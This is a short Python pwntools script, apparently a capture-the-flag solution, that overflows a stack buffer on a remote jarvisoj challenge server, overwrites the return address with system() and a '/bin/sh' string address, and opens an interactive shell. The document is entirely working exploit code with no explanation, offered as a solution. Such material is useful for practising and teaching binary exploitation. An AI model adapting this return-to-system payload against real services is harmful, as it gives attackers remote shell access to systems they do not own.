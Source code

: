 from pwn import *

sh = remote('pwn2.jarvisoj.com', 9878) 

junk = 'a' * 0x88 

fakebp = 'a'*4

sh_address = 0x0804A024 # /bin/sh

sys_address = 0x08048320

payload = junk + fakebp + p32(sys_address)+'aaaa'+p32(sh_address)

sh.send(payload)

sh.interactive()
